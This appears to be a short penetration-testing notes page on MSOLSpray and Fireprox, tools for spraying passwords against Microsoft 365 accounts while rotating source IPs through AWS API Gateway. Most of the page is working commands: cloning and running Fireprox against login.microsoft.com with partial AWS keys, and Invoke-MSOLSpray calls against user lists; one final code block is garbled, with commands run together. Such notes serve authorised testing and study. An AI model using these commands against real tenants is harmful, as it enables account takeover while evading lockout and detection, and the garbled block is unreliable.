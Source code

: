 # MSOLSpray & Fireprox

## MSOLSpray & Fireprox

MSOLSpray allows us to spray passwords against a list of user while fireprox can be used to rotate IPs at every request.

### MSOLSpray

* check if user cred is valid
* MFA is enabled
* Tenant exists or not
* A user exists or not
* If an account is disabled/locked
* If a user password is expired

#### Import MSOLSpray script

```csharp
. .\MSOLSpray.ps1
```

#### Create a user list from recon steps and start to spray

![](../../../../../.gitbook/assets/3a656195131b4e6db8e35516bfdd5be5.png)

### Fireprox

#### Install Fireprox on Kali

```csharp
git clone https://github.com/ustayready/fireprox
cd fireprox 
virtualenv -p python3 . 
source bin/activate
pip install -r requirements.txt
python fire.py
python fire.py --access_key AKIAP  --secret_access_key 5BzQZeL --region us-east-1 --url https://login.microsoft.com --command create
```

#### On Windows

* Import MSOLSpray module
* create an userlist to spray
* Use AWS url/credentials in command arguments

```bash
PS C:\Users\b3v1l\Desktop\tools\MSOLSpray> Import-Module .\MSOLSpray.ps1
PS C:\Users\b3v1l\Desktop\tools\MSOLSpray> Invoke-MSOLSpray -UserList ..\..\user.txt -Password WrongPassword! -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox
```

```csharp
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\brutelist.txt -Password WrongPass123 -URL 
https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox python fire.py --access_key $KEY --secret_access_key  $SECRET --region  --a pi_id  --command destroy
```

### Resources

{% embed url="https://github.com/dafthack/MSOLSpray" %}

{% embed url="https://github.com/ustayready/fireprox" %}

